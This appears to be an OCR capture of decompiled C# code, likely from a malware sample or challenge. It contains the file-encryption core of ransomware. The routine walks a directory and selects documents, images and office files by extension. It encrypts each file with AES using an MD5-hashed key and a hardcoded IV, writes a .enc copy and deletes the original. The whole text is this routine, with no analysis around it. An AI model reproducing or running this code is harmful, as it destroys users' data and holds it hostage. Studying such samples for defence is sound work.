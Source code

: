```
				"mp4",
				"png",
				"pdf",
				"txt",
				"doc",
				"docx",
				"docm",
				"ppt",
				"pptx",
				"xls",
				"xlsx"
			};
			foreach (string text in Directory.GetFiles(sDir))
			{
				string[] array = text.Split('.', StringSplitOptions.None);
				string item = array[1];
				string text2 = array[array.Length - 1];
				if (list.Contains(item) && !text2.Equals("enc"))
				{
					Console.WriteLine("Encrypting: " + text);
					Program.EncryptFile(text, key);
				}
			}
		}

		// Token: 0x06000004 RID: 4 RVA: 0x000021BC File Offset: 0x000003BC
		public static void EncryptFile(string file, string key)
		{
			byte[] array = File.ReadAllBytes(file);
			byte[] iv = new byte[]
			{
				99,
				104,
				105,
				99,
				107,
				101,
				110,
				32,
				77,
				97,
				114,
				116,
				121,
				33,
				33,
				33
			};
			SymmetricAlgorithm symmetricAlgorithm = Aes.Create();
			HashAlgorithm hashAlgorithm = MD5.Create();
			symmetricAlgorithm.BlockSize = 128;
			symmetricAlgorithm.Key = hashAlgorithm.ComputeHash(Encoding.Unicode.GetBytes(key));
			symmetricAlgorithm.IV = iv;
			using (CryptoStream cryptoStream = new CryptoStream(new FileStream(file + ".enc", FileMode.Create, FileAccess.Write), symmetricAlgorithm.CreateEncryptor(), CryptoStreamMode.Write))
			{
				cryptoStream.Write(array, 0, array.Length);
			}
			File.Delete(file);
		}
	}
}
```